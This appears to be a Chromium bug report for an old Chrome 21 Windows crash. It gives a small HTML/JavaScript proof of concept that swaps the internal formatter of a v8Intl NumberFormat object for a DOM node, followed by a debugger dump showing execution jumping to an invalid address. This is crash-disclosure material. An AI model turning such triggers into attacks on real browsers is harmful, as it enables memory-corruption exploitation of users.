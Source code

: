 Crashes on windows dev 21.0.1145.0 (138079) and canary 21.0.1153.0 (139208).

Repro:
----- crash1.html -----
<script>
    window.onload = main;

    function main(){
        var f1 = window.v8Intl.NumberFormat();
        f1.__formatter__ = window.document.body;
        f1.format();
    }
</script>
<body></body>
-----------------------

(acc.1724): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=59dbab55 ebx=0026ee38 ecx=5b879c54 edx=0026eda8 esi=0026ee54 edi=5b879c54
eip=d75605e8 esp=0026ed90 ebp=0026edb8 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
d75605e8 ??              ???

ExceptionAddress: d75605e8
   ExceptionCode: c0000005 (Access violation)
  ExceptionFlags: 00000000
NumberParameters: 2
   Parameter[0]: 00000008
   Parameter[1]: d75605e8
Attempt to execute non-executable address d75605e8

ChildEBP RetAddr  
WARNING: Frame IP not in any known module. Following frames may be wrong.
0026ed8c 5aae7405 0xd75605e8
0026edb8 5ace9fcc chrome_59a10000!icu_46::NumberFormat::format+0x2d
0026ee18 59c7a95d chrome_59a10000!v8_i18n::IntlNumberFormat::JSInternalFormat+0xd0
0026ee80 59c7a75a chrome_59a10000!v8::internal::HandleApiCallHelper<0>+0x1e3
0026ef7c 59c3167d chrome_59a10000!v8::internal::Builtin_HandleApiCall+0x16
0026efc4 59c31538 chrome_59a10000!v8::internal::Invoke+0x139
0026f004 59ca7075 chrome_59a10000!v8::internal::Execution::Call+0x17b
0026f058 59dc47e0 chrome_59a10000!v8::Function::Call+0x117
0026f0a4 59dc458a chrome_59a10000!WebCore::V8Proxy::instrumentedCallFunction+0x1ae
0026f0c8 59dc3d19 chrome_59a10000!WebCore::V8Proxy::callFunction+0x22
0026f0f0 59dc3ab1 chrome_59a10000!WebCore::V8EventListener::callListenerFunction+0x86
0026f130 59dc2bd4 chrome_59a10000!WebCore::V8AbstractEventListener::invokeEventHandler+0x107
0026f170 59dc2a49 chrome_59a10000!WebCore::V8AbstractEventListener::handleEvent+0x76
0026f1a0 59b33eb9 chrome_59a10000!WebCore::EventTarget::fireEventListeners+0x124
0026f1d0 59b8674c chrome_59a10000!WebCore::EventTarget::fireEventListeners+0x73
0026f1f8 59e6faf1 chrome_59a10000!WebCore::DOMWindow::dispatchEvent+0xef
0026f21c 59b704fe chrome_59a10000!WebCore::DOMWindow::dispatchLoadEvent+0x120
0026f240 59b70337 chrome_59a10000!WebCore::Document::implicitClose+0x12f
0026f250 59b6ff4d chrome_59a10000!WebCore::FrameLoader::checkCallImplicitClose+0x4c
0026f268 59b6eaaf chrome_59a10000!WebCore::FrameLoader::checkCompleted+0x150
0026f270 59b6e993 chrome_59a10000!WebCore::FrameLoader::finishedParsing+0x3d
0026f288 59b36f7c chrome_59a10000!WebCore::Document::finishedParsing+0xe8
[...]
